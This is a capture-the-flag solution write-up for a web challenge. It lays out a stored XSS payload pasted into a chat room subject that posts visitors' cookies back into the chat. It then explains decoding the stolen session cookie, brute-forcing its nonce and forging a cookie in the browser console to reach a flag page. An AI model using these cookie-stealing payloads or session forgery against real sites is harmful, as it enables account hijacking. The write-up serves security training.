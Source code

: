 Solution:

1. Go to http://<server ip>:3000
2. The "Resources" link is just a hint, click on the "Chat" link
3. Click on "Room Subject" and paste in the following:
<script type='text/javascript'>$.post('/chat/msg', {message: document.cookie})</script>
4. Copy the cookie that AdminGuy (or AdminMan) sends into the chat
5. After Base64 decoding the value
e3Nlc3Npb25fdG9rZW46REVBREJFRUYsbm9uY2U6MDA3fQ==
you get
{session_token:DEADBEEF,nonce:007}
6. Go to http://<server>:3000/resources/flag, you get a 403
7. The nonce can be brute forced by sequentially changing the nonce value, re-Base64-encoding the string, adding it to the sess cookie for the "/resources/flag" path, and attempting to connect in a way that there is no referer tag
(This can be accomplished in Chrome Inspector, Firebug, or elsewhere)
8. The correct encoded value is 
e3Nlc3Npb25fdG9rZW46REVBREJFRUYsbm9uY2U6MTM3fQ==
so go into Firebug or Chrome Inspector and enter the following into the console:
document.cookie="sess=e3Nlc3Npb25fdG9rZW46REVBREJFRUYsbm9uY2U6MTM3fQ==; path=/resources/flag"
9. Reload http://<server>:3000/resources/flag and you will have the flag value before you







document.cookie="sess=e3Nlc3Npb25fdG9rZW46MjY2NjA4NTY4QTY1MTczQzAzNEZFRTk1Q0IzNjYwNjI2NzhEMjc3ODIwMDNBMjE0RDdEOThBNTYwNkFFQjk5OTU5MUM4RDRFOTQwOUEzNzFENzNCNjgxQzIyODgxQzhDOTJGODM5MDY4Qjk2RUUzM0FFRkFBQzU2MjI2RTc4Mjc4NTUyNjY4RDRDQTQwNjM3MTY4RkRGOUUyMDQ2RTFDMzk3NTJDQ0IwRkU2NTE3RUQyQzMzQTRBNEU3NTIyRkQ1RjU1REI2RTFGRUJDNkJDNEY3ODM4Mzk1QTBGRUJFRjMyODFGQTA4RDBBODZEQjRGMzRGRTY4QzJGMjRDRDI4QSxub25jZTo1MTN9; path=/resources/flag"

513